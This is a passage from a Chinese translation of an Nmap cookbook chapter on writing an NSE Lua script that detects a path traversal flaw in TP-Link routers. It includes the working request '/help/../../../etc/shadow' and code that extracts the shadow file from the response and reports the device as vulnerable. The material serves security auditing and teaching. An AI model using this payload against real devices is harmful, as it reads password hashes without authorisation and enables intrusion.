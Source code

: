 1.  首先，它发送路径遍历请求以确定安装是否易受攻击。

1.  如果安装易受攻击，则从 Web 服务器发送的响应中提取请求的文件。

1.  向用户报告漏洞并提供概念验证。

在这种情况下，需要`http`库来发送包含路径遍历有效负载的 HTTP 请求。为了确定设备是否易受攻击，我们请求文件`/etc/shadow`，因为我们知道所有设备中都存在此文件，并且其中必须存在一个 root 帐户：

```
local response = http.get(host, port, "/help/../../../etc/shadow")
```

响应应该包含请求的文件，位于结束脚本标记`</SCRIPT>`之后的正文中：

![工作原理...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/nmap6-net-exp-sec-adt-cb/img/7485_09_01.jpg)

要确认可利用性，我们只需要将响应主体与字符串"root:"进行匹配：

```
if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
```

Lua 捕获允许开发人员提取与给定模式匹配的字符串。它们非常有帮助，我强烈建议您尝试一下（[`www.lua.org/pil/20.3.html`](http://www.lua.org/pil/20.3.html)）：

```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

一旦确认漏洞，建议使用`vulns`库进行报告。该库旨在统一各种 NSE 脚本使用的输出格式。它支持多个字段，以有组织的方式提供所有漏洞详细信息：

```
local vuln = {
       title = 'Path traversal vulnerability in several TP-Link wireless routers',
       state = vulns.STATE.NOT_VULN,
       description = [[
Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
This vulnerability can be exploited without authentication.Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.]],
       references = {
           'http://websec.ca/advisories/view/path-traversal-vulnerability-tplink-wdr740'
       },
       dates = {
           disclosure = {year = '2012', month = '06', day = '18'},       },
  }
  local vuln_report = vulns.Report:new(SCRIPT_NAME, host, port)
```

在`vulns`库中定义了以下状态：

```
STATE_MSG = {
  [STATE.LIKELY_VULN] = 'LIKELY VULNERABLE',
  [STATE.NOT_VULN] = 'NOT VULNERABLE',
  [STATE.VULN] = 'VULNERABLE',
  [STATE.DoS] = 'VULNERABLE (DoS)',
  [STATE.EXPLOIT] = 'VULNERABLE (Exploitable)',
  [bit.bor(STATE.DoS,STATE.VULN)] = 'VUNERABLE (DoS)',
  [bit.bor(STATE.EXPLOIT,STATE.VULN)] = 'VULNERABLE (Exploitable)',
}
```

